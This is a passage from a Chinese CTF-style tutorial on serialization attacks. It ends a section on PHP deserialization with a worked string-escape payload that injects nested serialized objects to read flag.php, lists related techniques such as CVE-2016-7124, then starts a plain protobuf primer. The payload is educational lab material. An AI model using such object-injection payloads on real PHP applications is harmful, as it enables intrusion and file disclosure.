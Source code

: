 ```
?a=%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":2:{s:1:"c";s:8:"flag.php";s:1:"a";s:0:"";}}}&b=deadbeef
echo write(read(serialize($a)));
O:1:"A":2:{s:8:"username";s:178:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":2:{s:1:"c";s:8:"flag.php";s:1:"a";s:0:"";}}}";s:8:"password";s:8:"deadbeef";}
此时，\0 共180个,手动修改 a 的长度增加2个,最终payload
?a=%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":2:{s:1:"c";s:8:"flag.php";s:1:"a";s:2:"aa";}}}&b=deadbeef
*/

```

### 6. 其他

还有其他一些`不完整类使再次序列化`、`CVE-2016-7124`、`Fast Destruct`等等手段，有兴趣的师傅可以自行搜索。

4. 二进制中的序列化
===========

虽然`java`、`Trift`、`protobuf`都是序列化成二进制形式，但是不论是比赛还是使用环境`protobuf`都有绝对优势（没有哪个师傅会把`java`的序列化放在二进制题目中考察）

1.`protobuf`编程速览
----------------

使用`protobuf`的关键是编译器`protoc`，下载地址为：`https://github.com/protocolbuffers/protobuf/releases`

### 1.`proto`文件编写

```
// test.proto
syntax = "proto2";

package tutorial;

message Person {
  required string name = 1;  // required: 必须提供该字段的值，否则该消息将被视为“未初始化”。
  required int32 id = 2;
  optional string email = 3; // optional: 可以设置也可以不设置该字段。如果未设置可选字段值，则使用默认值。

  enum PhoneType {
    MOBILE = 0;
    HOME = 1;
    WORK = 2;
  }

  message PhoneNumber {  // message 可以定义其他 message
    required string number = 1;
    optional PhoneType type = 2 [default = HOME];
  }

  repeated PhoneNumber phones = 4; // repeated: 该字段可以重复任意次数（包括零次）
}

message AddressBook {
  repeated Person people = 1;
}
//  protoc --cpp_out=./ ./test.proto


```